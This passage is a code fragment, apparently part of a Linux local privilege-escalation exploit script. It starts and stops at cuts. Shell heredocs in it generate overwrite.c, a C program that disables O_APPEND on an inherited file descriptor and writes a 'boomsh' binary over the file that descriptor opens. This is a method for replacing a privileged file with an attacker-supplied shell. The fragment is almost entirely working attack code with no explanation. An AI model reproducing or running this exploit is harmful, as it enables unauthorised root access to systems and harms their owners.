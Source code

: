```
        return 0;
}
EOF
cat << EOF > $TARGET/overwrite.c
#include <sys/types.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char **argv)
{
        int fd;
        char buffer[1024];
        ssize_t toread, numread;
        ssize_t numwritten;
        ssize_t size;

        /* disable O_APPEND */
        fcntl(3, F_SETFL, 0);
        lseek(3, 0, SEEK_SET);

        /* write file into it */
        fd = open(
EOF
echo "\"$TARGET/boomsh\"" >> $TARGET/overwrite.c
cat << EOF >> $TARGET/overwrite.c
        , O_RDONLY, 0);
        if (fd > 0) {

                /* determine size */
                size = lseek(fd, 0, SEEK_END);
                lseek(fd, 0, SEEK_SET);

                while (size > 0) {
                        if (size > sizeof(buffer)) {
                                toread = sizeof(buffer);
                        } else {
                                toread = size;
                        }

                        numread = read(fd, &buffer, toread);
                        if (numread < toread) {
                                fprintf(stderr, "problem reading\n");
                                _exit(2);
                        }
                        numwritten = write(3, &buffer, numread);
                        if (numread != numwritten) {
                                fprintf(stderr, "problem writing\n");
                                _exit(2);
                        }

                        size -= numwritten;

                }

                fsync(3);
                close(fd);
        } else {
                fprintf(stderr, "Cannot open for reading\n");
        }

        return 0;
```